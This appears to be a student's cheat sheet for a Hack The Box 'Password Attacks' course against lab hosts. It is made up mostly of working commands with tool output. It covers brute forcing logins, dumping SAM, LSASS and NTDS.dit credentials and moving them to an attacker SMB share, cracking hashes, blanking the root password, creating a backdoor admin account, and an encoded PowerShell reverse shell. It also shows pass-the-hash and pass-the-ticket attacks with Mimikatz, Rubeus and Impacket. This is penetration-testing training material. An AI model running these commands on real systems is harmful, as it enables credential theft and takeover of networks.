

# Password Attacks



# **Network Services**

| Command                                                                  | Description                                                                                                                                     |
| ------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:<ip> /u:htb-student /p:HTB\_@cademy_stdnt!                   | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.                                                           |
| evil-winrm -i <ip> -u user -p password                                   | Uses Evil-WinRM to establish a Powershell session with a target.                                                                                |
| ssh user@<ip>                                                            | Uses SSH to connect to a target using a specified user.                                                                                         |
| smbclient -U user \\\\<ip>\\SHARENAME                                    | Uses smbclient to connect to an SMB share using a specified user.                                                                               |
| python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/ | Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

- `CrackMapExec` (no longer maintained) `netexec` is recommended
  - `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`
    `crackmapexec winrm 10.129.42.197 -u user.list -p password.list` to get username and password
  - `crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares` to view available shares and what privileges we have
- **`Evil-WinRM` communicate with `winrm` service**
  - `evil-winrm -i <target-IP> -u <username> -p <password` if credentials are correct, terminal session is initialized using PowerShell Remoting Protocol (MS-PSRP)
- `Hydra` brute forcing tool
  - `hydra -L user.list -P password.list ssh://10.129.42.197`
  - `hydra -L user.list -P password.list rdp://10.129.42.197`
  - `hydra -L user.list -P password.list smb://10.129.42.197`

# **Password Mutations**

| Command                                                                     | Description                                                                                                                       |
| --------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------------- | --------- | ------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist | Uses cewl to generate a wordlist based on keywords present on a website.                                                          |
| hashcat --force password.list -r custom.rule --stdout > mut_password.list   | Uses Hashcat to generate a rule-based word list.                                                                                  |
| ./username-anarchy -i /path/to/listoffirstandlastnames.txt                  | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. |
| curl -s https://fileinfo.com/filetypes/compressed                           | html2text                                                                                                                         | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |

# Windows Local Password Attacks

# Attacking SAM

| Registry Hive | Description                                                                                                                                                |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| hklm\sam      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| hklm\system   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| hklm\security | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

- using `reg.exe` save to copy registry hives
  - `reg.exe save hklm\sam C:\sam.save`
  - `reg.exe save hklm\system C:\system.save`
  - `reg.exe save hklm\security C:\security.save`
- Then lets transfer them to attacker host using `impacket's smbserver.py`
  - in attacker host
    `sudo` `python3 smbserver.py -smb2support {sharename} {location of share in attacker host}`
    or
    `impacket-smbserver -smb2support {sharename} {location of share in attacker host}`
  - in windows (victim)
    `move sam.save \\ip\sharename` → moving hive copies to share
- Dumping hashes with impacket’s secretsdump.py
  - `python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
- Cracking hash with hashcat

  hash format `Dumping local SAM hashes (uid:rid:lmhash:nthash)`

  - `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
    [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

- Remote Dumping

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

- Dumping LSA secrets remotely
  - `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
- Dumping SAM remotely
  - `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

# Attacking LSAAS

LSAAS is responsible for enforcing the security policy on the system.

it verifies users logging on to a windows computer or server

It handles password changes and creates access tokens

`lsaas holds paswords, credentials, hashes and other keys used to make access across windows domain in memory`

`mimikatz` is used to get those credentials

## Dumping LSASS Process Memory

- using taskmanager
  `Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`
  file called `lsass.DMP` is saved in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`
- Rundll32.exe & Comsvcs.dll method (antivirus recognize this method)
  - get pid assigned to lsass.exe using
    - `tasklist /svc` → in cmd
    - `Get-Process lsass` → powershell
  - after we get the pid
    - `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 656 C:\lsass.dmp full` → in powershell as administrator
      then transfer this lsass.dmp file to attacker machine (using method studied in Attacking sam section)

## **Using Pypykatz to Extract Credentials**

`pypykatz` is implementation of `mimikatz` in python language , earlier version of mimikatz we only supported on windows so pypykatz originated

once we get `lsass.dmp` file, we can proceed to crack it in our local machine.

- `pypykatz lsa minidump /home/peter/Documents/lsass.dmp`

# **Attacking Active Directory & NTDS.dit**

in this section we will use dictionary attack against AD accounts and dumping hashes from the NTDS.dit file

### **Creating a Custom list of Usernames**

- `./username-anarchy -i /home/ltnbob/names.txt` here names.txt is the file consisting list of Names, then this tool will give us usernames from this real name list.

### **Launching the Attack with CrackMapExec `netexec is recommended`**

- `crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`
  using `netexec` is recommended

# **Capturing NTDS.dit**

NTDS.DIT stands for New Technology Directory Services Directory Information Tree
It serves as primary database file in Microsoft AD. It stores and organizes all the info related to objects in domain, including users, groups, computers, password hashes and more.

**`C:\Windows\ NTDS\Ntds.** **dit`**

### **Connecting to a DC with Evil-WinRM**

We can connect to a target DC using the credentials we captured.

- `evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'`

### **Checking Local Group Membership**

- then we can check what privileges a user have `net localgroup`
- we are checking if we have local administrator rights, to make a copy of `NTDS.dit` we need to be (local admin or domain admin to make a copy)

### **Checking User Account Privileges including Domain**

- `net user bwilliamson`

### **Creating Shadow Copy of C:**

- `vssadmin CREATE SHADOW /For=C:` → we are creating volume shadow copy using vssadmin

### **Copying NTDS.dit from the VSS**

- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
  we are copying ntds.dit file from the volume shadow copy of C: to another location to transform ntds.dit to attacker machine.
- `cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData`
  finally sending to attacker
  we also need the `system.save` file to get the hash from ntds.dit file locally

## **A Faster Method: Using cme to Capture NTDS.dit**

- `crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds`
  we can use above single cmd to dump the ntds.dit file

---

---

---

---

---

`What if we are unsuccessful in cracking a hash?`

## **Pass-the-Hash Considerations**

we can still use the uncracked hash to attempt to authenticate using a Pass-the-Hash attack.

- `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"`

more on `PtH` in AD Enumeration and Attacks module

# Credential Hunting in Windows

process of performing detailed searches across the file system and through various applications to discover credentials

- [\*\*`Lazangne`](https://github.com/AlessandroZ/LaZagne/releases) [](https://github.com/AlessandroZ/LaZagne)\*\*discover creds that web browser or other app may insecurely store
  - `start lazagne.exe all` → will run all included modules
- **`findstr` →** `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

# Linux Local Password Attacks

## **Credential Hunting in Linux**

| Files        | History              | Memory               | Key-Rings                  |
| ------------ | -------------------- | -------------------- | -------------------------- |
| Configs      | Logs                 | Cache                | Browser stored credentials |
| Databases    | Command-line History | In-memory Processing |                            |
| Notes        |                      |                      |                            |
| Scripts      |                      |                      |                            |
| Source codes |                      |                      |                            |
| Cronjobs     |                      |                      |                            |
| SSH Keys     |                      |                      |                            |

### Searching for specific files

- `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l **2**>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
- `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l **2**>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done`
- `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l **2**>/dev/null | grep -v "doc\|lib\|headers\|share";done`

### Cronjobs

- location `/etc/crontab` `/etc/cron.daily`, `/etc/cron.hourly`, `/etc/cron.monthly`, `/etc/cron.weekly` or `/etc/cron.d` in debian

### SSH

- `grep -rnw "PRIVATE KEY" /home/* **2**>/dev/null | grep ":1"`
- `grep -rnw "ssh-rsa" /home/* **2**>/dev/null | grep ":1"`

### **History**

- `cat ~/.bash_history`

### Memory and Cache

- [\*\*LaZagne](https://github.com/AlessandroZ/LaZagne/releases/) → `sudo python lazagne.py all`\*\*

### Firefox stored credentials

- `ls -l .mozilla/firefox/ | grep default`
- `cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .`
- https://github.com/unode/firefox_decrypt can be used to decrypt (use python3.9)
- Lazagne also works if supported browser is present

## Passwd, Shadow & Opasswd

- if we have write access to `/etc/passwd` we can remove the password field(`x`) for root user, so that system will not send password prompt when user tries to login as root
  `root:x:0:0:root:/root:/bin/bash`
  `root::0:0:root:/root:/bin/bash`

### **Algorithm Types**

- `$1$` – MD5
- `$2a$` – Blowfish
- `$2y$` – Eksblowfish
- `$5$` – SHA-256
- `$6$` – SHA-512

### **Opasswd**

The file where old passwords are stored is the `/etc/security/opasswd`.

---

---

---

---

---

---

if we have `passwd.bak` and `shadow.bak`

- `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes`
- the crack using hashcat `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`

# **Windows Lateral Movement (`PtH`)**

Technique where attacker uses password hash instead of plane text password for authentication

## Pass the Hash

### **Windows NTLM Introduction**

Is a set of security protocols. It is a Single Sign-on SSO solution that uses challenge-response protocol to verify users identity without having them provide a password

- Kerberos has taken over as the default authentication mechanism in windows 2000 and subsequent AD domain

# **Pass the Hash with Mimikatz (Windows)**

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password.

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

> `mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit`

Now we can use cmd.exe to execute commands in the user's context

### **Pass the Hash with PowerShell Invoke-TheHash (Windows)**

[https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

When using `Invoke-TheHash`, we have two options: SMB or WMI command execution.

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

### **Invoke-TheHash with SMB**

- `cd C:\tools\Invoke-TheHash\`
- `Import-Module .\Invoke-TheHash.psd1`
- `Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose`

we can add revshell cmd (`Powershell #3 (base64)`) in -Command field to get reverse shell

### **Invoke-TheHash with WMI**

- `Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIA....*zAGUAKAApAA==*"`

# **Pass the Hash with Impacket (Linux)**

Using PsExec

- `impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

# **Pass the Hash with CrackMapExec (Linux) `NetExec is recommended`**

- `crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453`
- `crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami` for cmd execution

# **Pass the Hash with evil-winrm (Linux)**

- `evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453`

# **Pass the Hash with RDP (Linux)**

using `xfreerdp` , there are few caveats to this attack

• `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:


This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

`c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`


`xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B`

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

**Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.

### **Pass the Ticket (PtT) from Windows**

In this attack we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.

### Kerberos Protocol Refresher

- Client first sends server access request with its credential to `authentication server` present in `Key Distribution center`
- If credential is correct `authentication server` send the client `TGT - Ticket Granting Ticket`
- Then client sends this `TGT` to `TGS - Ticket Granting Server` present in `Key Distribution center`
- `TGS` decrypts this `TGT` and provides the client with a `token` that is encrypted with a different key
- Client then sends this `token` to the server, the server receives this `token` and encrypts this token with a secret key shared with the `TGS`
- Based on the token, server allows time-sensitive access


# **Harvesting Kerberos Tickets from Windows**

> USING MIMIKATZ

We can harvest all tickets from a system using the `Mimikatz` module `sekurlsa::tickets /export`. we will get files with `.kirbi` extension

`mimikatz`

`privilege::debug`

`sekurlsa::tickets /export`

- The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory
- User tickets have the user's name, followed by an `@` that separates the service name and the domain `[randomvalue]-username@service-domain.local.kirbi`

> USING REBEUS

Also we can use Rubeus tool to dump all the tickets (if we are running local administrator)

- `Rubeus.exe dump /nowrap`→ Tickets are encoded in base64 format

## **Pass the Key or OverPass the Hash**

- idea is to forge our own tickets.
- traditionally `PtH` technique involves reusing an NTLM password hash that doesnot touch Kerberos
- but Pass the key or overpass the hash approach converts a hash/key for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`

→ For this we need to have `user’s hash`, we can get it using mimikatz module `sekurlsa::ekeys`

### **Mimikatz - Pass the Key or OverPass the Hash**

- `sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f`

this will give us `cmd.exe` through which we can request access to any service we want in the context of the target user.

### **Rubeus - Pass the Key or OverPass the Hash**

- `Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`
  we are using `asktgt` module and `aes256` hash we can also use `/rc4`, `/aes128`, `/aes256`, or `/des` hash
  we get ticket in `base64` format
    <aside>
    💡 **Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.
    
    </aside>
    
    **Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."

---

---

---

---

Now we have the Kerberos tickets, we can use them to move laterally within an environment

# **Pass the Ticket (PtT)**

### **Rubeus Pass the Ticket**

We can directly use the generated ticket using this command

- `Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt`
  which displays  `Ticket successfully imported!`.
- or we can manually import `.kirbi` ticket file using this command
  `Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`
- We can also use the base64 output from `Rubeus` or convert `.kirbi` to base64 to perform the pass the ticket attack.
  `Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6AD........asfasdf==`
  - convert `.kirbi` file to base64 using
    `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`

### **Mimikatz - Pass the Ticket**

Finally we can do `PtT` using `kerberos::ptt` module

- `kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"`
  then exit the mimikatz , now this same cmd has upgraded permission

**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

# **Pass The Ticket with PowerShell Remoting (Windows)**

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer.

for this we should have `administrator permission` , be member of `Remote Management Users group` or have explicit `Powershell Remoting Permissions`

### **Mimikatz - Pass the Ticket for Lateral Movement.**

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute mimikatz.exe, then import the ticket we collected using `kerberos::ptt`. Once the ticket is imported into our cmd.exe session, we can launch a PowerShell command prompt from the same cmd.exe and use the command `Enter-PSSession` to connect to the target machine.

```jsx
C:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```

### **Rubeus - PowerShell Remoting with Pass the Ticket**

Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

**Create a Sacrificial Process with Rubeus**

- `Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show`

  The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

- `Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt`

```jsx
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\john'
[*] Using domain controller: 10.129.203.120:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFqDCCBaSgAwIBBaEDAgEWooIEojCCBJ5hggSaMIIElqADAgEFoRMbEUlOTEFORUZSRUlHSFQuSFRC
      oiYwJKADAgECoR0wGxsGa3JidGd0GxFpbmxhbmVmcmVpZ2h0Lmh0YqOCBFAwggRMoAMCARKhAwIBAqKC
      BD4EggQ6JFh+c/cFI8UqumM6GPaVpUhz3ZSyXZTIHiI/b3jOFtjyD/uYTqXAAq2CkakjomzCUyqUfIE5
      +2dvJYclANm44EvqGZlMkFvHK40slyFEK6E6d7O+BWtGye2ytdJr9WWKWDiQLAJ97nrZ9zhNCfeWWQNQ
      dpAEeCZP59dZeIUfQlM3+/oEvyJBqeR6mc3GuicxbJA743TLyQt8ktOHU0oIz0oi2p/VYQfITlXBmpIT
      OZ6+/vfpaqF68Y/5p61V+B8XRKHXX2JuyX5+d9i3VZhzVFOFa+h5+efJyx3kmzFMVbVGbP1DyAG1JnQO
      h1z2T1egbKX/Ola4unJQRZXblwx+xk+MeX0IEKqnQmHzIYU1Ka0px5qnxDjObG+Ji795TFpEo04kHRwv
      zSoFAIWxzjnpe4J9sraXkLQ/btef8p6qAfeYqWLxNbA+eUEiKQpqkfzbxRB5Pddr1TEONiMAgLCMgphs
      gVMLj6wtH+gQc0ohvLgBYUgJnSHV8lpBBc/OPjPtUtAohJoas44DZRCd7S9ruXLzqeUnqIfEZ/DnJh3H
      SYtH8NNSXoSkv0BhotVXUMPX1yesjzwEGRokLjsXSWg/4XQtcFgpUFv7hTYTKKn92dOEWePhDDPjwQmk
      H6MP0BngGaLK5vSA9AcUSi2l+DSaxaR6uK1bozMgM7puoyL8MPEhCe+ajPoX4TPn3cJLHF1fHofVSF4W
      nkKhzEZ0wVzL8PPWlsT+Olq5TvKlhmIywd3ZWYMT98kB2igEUK2G3jM7XsDgwtPgwIlP02bXc2mJF/VA
      qBzVwXD0ZuFIePZbPoEUlKQtE38cIumRyfbrKUK5RgldV+wHPebhYQvFtvSv05mdTlYGTPkuh5FRRJ0e
      WIw0HWUm3u/NAIhaaUal+DHBYkdkmmc2RTWk34NwYp7JQIAMxb68fTQtcJPmLQdWrGYEehgAhDT2hX+8
      VMQSJoodyD4AEy2bUISEz6x5gjcFMsoZrUmMRLvUEASB/IBW6pH+4D52rLEAsi5kUI1BHOUEFoLLyTNb
      4rZKvWpoibi5sHXe0O0z6BTWhQceJtUlNkr4jtTTKDv1sVPudAsRmZtR2GRr984NxUkO6snZo7zuQiud
      7w2NUtKwmTuKGUnNcNurz78wbfild2eJqtE9vLiNxkw+AyIr+gcxvMipDCP9tYCQx1uqCFqTqEImOxpN
      BqQf/MDhdvked+p46iSewqV/4iaAvEJRV0lBHfrgTFA3HYAhf062LnCWPTTBZCPYSqH68epsn4OsS+RB
      gwJFGpR++u1h//+4Zi++gjsX/+vD3Tx4YUAsMiOaOZRiYgBWWxsI02NYyGSBIwRC3yGwzQAoIT43EhAu
      HjYiDIdccqxpB1+8vGwkkV7DEcFM1XFwjuREzYWafF0OUfCT69ZIsOqEwimsHDyfr6WhuKua034Us2/V
      8wYbbKYjVj+jgfEwge6gAwIBAKKB5gSB432B4DCB3aCB2jCB1zCB1KArMCmgAwIBEqEiBCDlV0Bp6+en
      HH9/2tewMMt8rq0f7ipDd/UaU4HUKUFaHaETGxFJTkxBTkVGUkVJR0hULkhUQqIRMA+gAwIBAaEIMAYb
      BGpvaG6jBwMFAEDhAAClERgPMjAyMjA3MTgxMjQ0NTBaphEYDzIwMjIwNzE4MjI0NDUwWqcRGA8yMDIy
      MDcyNTEyNDQ1MFqoExsRSU5MQU5FRlJFSUdIVC5IVEKpJjAkoAMCAQKhHTAbGwZrcmJ0Z3QbEWlubGFu
      ZWZyZWlnaHQuaHRi
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/inlanefreight.htb
  ServiceRealm             :  INLANEFREIGHT.HTB
  UserName                 :  john
  UserRealm                :  INLANEFREIGHT.HTB
  StartTime                :  7/18/2022 5:44:50 AM
  EndTime                  :  7/18/2022 3:44:50 PM
  RenewTill                :  7/25/2022 5:44:50 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  5VdAaevnpxx/f9rXsDDLfK6tH+4qQ3f1GlOB1ClBWh0=
  ASREP (key)              :  9279BCBD40DB957A0ED0D3856B2E67F9BB58E6DC7FC07207D0763CE2713F11DC

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```
